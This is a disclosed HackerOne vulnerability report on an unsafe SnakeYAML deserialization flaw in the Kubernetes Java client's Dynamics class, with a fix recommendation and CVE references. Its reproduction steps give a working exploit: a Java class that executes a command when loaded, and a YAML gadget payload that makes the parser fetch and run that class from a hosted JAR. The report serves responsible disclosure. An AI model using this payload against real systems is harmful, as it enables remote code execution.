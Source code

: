 # The `io.kubernetes.client.util.generic.dynamic.Dynamics` contains a code execution vulnerability due to SnakeYAML

## Report Details
- **Report ID**: 1807214
- **URL**: https://hackerone.com/reports/1807214
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-12-15T19:07:04.446Z
- **Disclosed**: 2023-04-25T16:44:21.223Z

## Reporter
- **Username**: jlleitschuh
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
## Summary:

If the `io.kubernetes.client.util.generic.dynamic.Dynamics` is used to deserialize a `DynamicKubernetesObject `from untrusted YAML, an attacker can achieve code execution inside of the JVM.

Since this is a part of the public API, down stream consumers can be using this API in a way that leaves them vulnerable. I have found no users of this class on GitHub outside of this project's unit tests. But that doesn't mean there are no users of this API. Someone built it for a reason, right?

## Component Version:

Kubernettes Java Client version 17.0.0

## Steps To Reproduce:

1. Host a server with a JAR file containing the following code: 
```java
package org.jlleitschuh.sandbox;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class ScriptEngineFactoryRCE implements ScriptEngineFactory {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("open -a Calculator");
            p.waitFor();
        } catch (IOException | InterruptedException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

The jar file must contain a file `/META-INF/services/javax.script.ScriptEngineFactory` with the contents `org.jlleitschuh.sandbox.ScriptEngineFactoryRCE    # Our RCE Payload`

Host this jar file from a local server's root path.

Then call the `Dynamics` yaml parsing APIs with the following payload:

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://localhost:8080/"]]]]
```

## Fix

The SnakeYAML parser should be instantiated with the argument `new SafeConstructor()` in order to not be vulnerable to arbitrary deserialization.

## Supporting Material/References:
 - https://bitbucket.org/snakeyaml/snakeyaml/issues/561/cve-2022-1471-vulnerability-in (I'm currently attempting to convince the maintainer of SnakeYaml to make this library secure by default, with limited sucsess)
 - https://nvd.nist.gov/vuln/detail/CVE-2022-1471
 - https://github.com/google/security-research/security/advisories/GHSA-mjmj-j48q-9wg2

## Impact

If this Dynamics class is used to parse untrusted YAML, an attacker can achieve remote code execution

## Attachments
No attachments
